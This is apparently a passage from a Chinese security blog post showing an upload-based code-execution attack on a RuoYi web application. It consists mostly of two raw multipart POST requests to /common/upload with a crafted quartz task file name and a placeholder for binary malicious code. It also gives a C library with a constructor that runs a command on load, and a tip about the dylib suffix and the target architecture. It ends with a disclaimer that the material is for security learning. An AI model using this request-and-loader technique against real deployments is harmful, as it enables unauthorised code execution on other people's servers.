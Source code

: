 ![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraam1I1cO4rl4sJpsJvJOP3arWviaEZ4jhNCzluY0oeaqot7QQTg6gDCNFw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
```
POST /common/upload HTTP/1.1Host: 10.40.107.67Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1cx-forwarded-for: 127.0.0.1Connection: closeContent-Type: multipart/form-data; boundary=00content0boundary00Content-Length: 167--00content0boundary00Content-Disposition: form-data; name="file"; filename="com.ruoyi.quartz.task.txt"Content-Type: image/jpgsuccess--00content0boundary00--
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamj0hJfurZyF4NaLDCibZ7V99ImgoKJ70EECtWaSe2g8uz45MxpzCN38w/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraam4eqw33uialUAoTaa7ibpB1gCSP1OtSTzUsL7AqAQtQcBONWXucKp17aw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
```
cat calc.c #include <stdlib.h>__attribute__((constructor))staticvoid run() {system("open -a Calculator");}
```  
```
POST /common/upload HTTP/1.1Host: 10.40.107.67Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1cx-forwarded-for: 127.0.0.1Connection: closeContent-Type: multipart/form-data; boundary=00content0boundary00Content-Length: 167--00content0boundary00Content-Disposition: form-data; name="file"; filename="com.ruoyi.quartz.task.txt"Content-Type: image/jpg二进制恶意代码--00content0boundary00--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL8xpsW5LK9HjPhAptkYwichsQ9ef5AtfH0kwTnjwVsKdW3vibsicjDiacZno5pd7gBp5ZfcBdlxF8Lgsg/640?wx_fmt=png&from=appmsg "")  
  
注意他会自动在后面添加dylib等后缀，在不同的系统中可能有不同的后缀，并且要注意架构问题  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
